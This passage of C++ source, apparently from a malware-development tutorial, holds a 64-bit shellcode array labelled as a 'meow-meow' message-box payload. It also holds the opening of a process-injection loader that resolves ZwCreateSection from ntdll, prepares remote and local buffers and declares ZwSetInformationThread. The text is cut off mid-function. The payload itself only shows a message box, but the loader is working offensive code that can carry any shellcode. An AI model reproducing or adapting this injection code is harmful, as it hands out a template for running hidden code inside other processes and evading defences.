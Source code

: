 ```cpp
  IN PVOID                ApcRoutineContext OPTIONAL,
  IN PIO_STATUS_BLOCK     ApcStatusBlock OPTIONAL,
  IN ULONG                ApcReserved OPTIONAL
);

// ZwSetInformationThread
typedef NTSTATUS(NTAPI* pZwSetInformationThread)(
  _In_ HANDLE             ThreadHandle,
  _In_ THREADINFOCLASS    ThreadInformationClass,
  _In_ PVOID              ThreadInformation,
  _In_ ULONG              ThreadInformationLength
);

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE sh; // section handle
  HANDLE th; // thread handle
  STARTUPINFOA si = {};
  PROCESS_INFORMATION pi = {};
  PROCESS_BASIC_INFORMATION pbi = {};
  OBJECT_ATTRIBUTES oa;
  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { (DWORD) s };
  PVOID rb = NULL; // remote buffer
  PVOID lb = NULL; // local buffer

  ZeroMemory(&si, sizeof(STARTUPINFO));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  ZeroMemory(&pbi, sizeof(PROCESS_BASIC_INFORMATION));
  si.cb = sizeof(STARTUPINFO);

  ZeroMemory(&oa, sizeof(OBJECT_ATTRIBUTES));

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pZwCreateSection myZwCreateSection = 
  (pZwCreateSection)(GetProcAddress(
    ntdll, "ZwCreateSection"));
```